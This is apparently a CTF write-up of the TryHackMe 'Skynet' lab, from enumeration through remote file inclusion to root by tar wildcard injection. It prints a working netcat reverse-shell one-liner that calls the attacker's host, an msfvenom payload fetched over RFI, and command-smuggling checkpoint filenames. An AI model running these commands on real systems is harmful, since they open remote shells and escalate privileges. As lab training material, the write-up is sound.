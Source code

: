 ```yaml
---
title: TryHackMe Skynet
date: 2024-12-30 0:0:0 -0500
categories: CTFs
tags: tryhackme
---
```



![](/assets/img/skynet/skynet.jpeg)


# Information Gathering


We are given:

> Deploy and compromise the vulnerable machine!

Additonally, we are given the target IP `10.10.13.83`. Our objectives are as follows:

1. Obtain Miles' email password,
2. Identify the hidden directory,
3. Recall the type of vulnerability wherein one includes a remote file for malicious purposes,
4. Obtain the user flag, and
5. Obtain the root flag.


# Enumeration
We run an nmap scan with `nmap -sS -T5 -sC -sV 10.10.13.83` and obtain the following
```bash
Nmap scan report for 10.10.13.83
Host is up (0.097s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE    SERVICE      VERSION
22/tcp    open     ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp    open     http         Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Skynet
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp   open     pop3         Dovecot pop3d
|_pop3-capabilities: CAPA PIPELINING UIDL AUTH-RESP-CODE SASL RESP-CODES TOP
139/tcp   open     netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp   open     imap         Dovecot imapd
|_imap-capabilities: IMAP4rev1 more SASL-IR post-login have IDLE capabilities listed 
LITERAL+ Pre-login OK LOGINDISABLEDA0001 ENABLE ID LOGIN-REFERRALS
445/tcp   open     netbios-ssn  Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
646/tcp   filtered ldp
1023/tcp  filtered netvenuechat
1042/tcp  filtered afrog
3580/tcp  filtered nati-svrloc
3905/tcp  filtered mupdate
24444/tcp filtered unknown
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
|_clock-skew: mean: 1h59m54s, deviation: 3h27m50s, median: -5s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2024-12-30T17:58:47
|_  start_date: N/A
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2024-12-30T11:58:47-06:00

Nmap done: 1 IP address (1 host up) scanned in 24.43 seconds
```

We notice SAMBA running on port `445/TCP` and enumerate it using `nmap --script samba-enum-shares.nse -p 445 10.10.13.83`.
This reveals

```bash
Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.13.83\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (skynet server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.13.83\anonymous:
|     Type: STYPE_DISKTREE
|     Comment: Skynet Anonymous Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\srv\samba
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.13.83\milesdyson:
|     Type: STYPE_DISKTREE
|     Comment: Miles Dyson Personal Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\milesdyson\share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.13.83\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```
We notice that we have read and write access on `\\10.10.13.83\anonymous`. Moreover, 
it appears that Miles' personal files are accessible at `\\10.10.13.83\milesdyson`. However, this share is inaccessible without credentials.

On the `anonymous` share, we find a file `attention.txt` containing

```
A recent system malfunction has caused various passwords to be changed. All skynet
employees are required to change their password after seeing this.
-Miles Dyson
```

Additionally, we obtain some log files, which appear to be the history of the password resets mentioned in `attention.txt`.


Afterward, we move on to the web server at port `80/TCP` and fuzz for directories using

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
-u http://10.10.13.83/FUZZ -ic
```

This reveals the directory `/squirrelmail`, allowing us to login into Miles' email account. The combination
`MilesDyson:<MOSTRECENTPASSFROMLOGS>` works.

In Miles' inbox, we find the following message

![](/assets/img/skynet/email.png)

This password allows us to authenticate to Miles' SMB share, where we find the file `notes/important.txt`. The
file reads
```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```
This suggests that there is a directory named `/45kra24zxs28v3yd`. Navigating to `http://10.10.13.83/45kra24zxs28v3yd/` reveals Miles' personal page. The `notes/important.txt` file suggests that there is a login page available, so
we fuzz using 

```bash 
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
-u http://10.10.13.83/45kra24zxs28v3yd/FUZZ -ic
```

Consequently, we find a login form at `/45kra24zxs28v3yd/administrator/`.


# Exploitation
After some research, we identify an exploit compatible with this CMS at [https://www.exploit-db.com/exploits/25971](https://www.exploit-db.com/exploits/25971).

To use this exploit, we first generate a php reverse shell with the command `msfvenom -p php/reverse_php LHOST=10.6.4.176 -o shell.php`. Then, we serve this file using `python3 -m http.server` and start a netcat listener with
`ncat -lvnp 4444`. Finally, we visit the URL 

```
http://10.10.13.83/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?
urlConfig=http://10.6.4.176:8000/shell.php
``` 
and receive a shell as `www-data`. We then obtain the user flag:

![](/assets/img/skynet/user.txt.png)

# Post-Exploitation
Checking for cron jobs, we execute the command `cat /etc/crontab`, which returns

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
...
```

The first job seems atypical. At `/home/milesdyson/backups/backups.sh`, we find

```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

We use wildcard injection to exploit this cron job: first, we `cd /var/www/html`. Then, we run `echo "" > '--checkpoint=1`
and
```bash
echo "" > '--checkpoint-action=exec=bash evil.sh'
``` 

Lastly, we write a reverse shell `evil.sh` using

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.6.4.176 1234 > /tmp/f" 
> evil.sh
```

After setting up a netcat listener with the command `ncat -lvnp 1234`,
we receive a shell as `root`.

We then obtain the root flag:

![](/assets/img/skynet/root.txt.png)



